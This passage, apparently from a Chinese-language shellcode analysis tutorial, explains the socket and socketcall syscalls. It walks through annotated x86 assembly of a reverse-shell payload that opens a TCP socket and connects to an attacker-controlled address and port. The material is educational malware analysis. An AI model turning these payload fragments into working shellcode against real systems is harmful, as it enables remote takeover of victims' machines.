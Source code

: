    ```
    int socket(int domain, int type, int protocol);
    ```

你通常会看到它这样使用：

```
socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
```

在这里，`AF_INET` 代表大多数已知的互联网协议，包括 `IPPROTO_IP`（即 IP 协议）。`SOCK_STREAM` 用于表示 TCP 通信。从这个系统调用中，你可以理解这个 shellcode 正通过 TCP 与攻击者进行通信。汇编代码如下所示：

```
xor edx, edx  ; cleanup edx
push edx      ; protocol=IPPROTO_IP (0x0)
push 0x1      ; socket_type=SOCK_STREAM (0x1) 
push 0x2      ; socket_family=AF_INET (0x2)
mov ecx, esp  ; pointer to socket() args
xor ebx, ebx
mov bl, 0x1   ; SYS_SOCKET
xor eax,eax
mov al, 0x66  ; socketcall syscall ID
int 0x80
xchg edx, eax ; edx=sockfd (the returned socket)
```

在这里，shellcode 使用了 `socketcall` 系统调用（ID 为 0x66）。该系统调用表示多个系统调用，包括 `socket`、`connect`、`listen`、`bind` 等。在 `ebx` 中，shellcode 设置要从 `socketcall` 列表中执行的函数。以下是 `socketcall` 支持的函数列表的一个片段：

```
SYS_SOCKET 1
SYS_BIND 2
SYS_CONNECT 3
SYS_LISTEN 4
SYS_ACCEPT 5
```

shellcode 将参数压入栈中，然后将 `ecx` 设置为指向参数列表，将 `ebx = 1`（即 `SYS_SOCKET`），将系统调用 ID 设置到 `eax`（即 `socketcall`），接着执行系统调用。

1.  `sockaddr_in` 包含 IP、端口，并且再次使用 `AF_INET`。接着，shellcode 执行 `socketcall` 函数列表中的 `connect` 函数。其原型如下所示：

    ```
    int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
    ```

汇编代码将如下所示：

```
push 0x0101017f ; sin_addr=127.1.1.1 (network byte order)
xor ecx, ecx
mov cx, 0x3905
push cx      ; sin_port=1337 (network byte order)
inc ebx
push bx      ; sin_family=AF_INET (0x2)
mov ecx, esp    ; save pointer to sockaddr struct
push 0x10      ; addrlen=16
push ecx      ; pointer to sockaddr
push edx      ; sockfd
mov ecx, esp    ; save pointer to sockaddr_in struct
inc ebx      ; sys_connect (0x3)
int 0x80      ; exec sys_connect
```
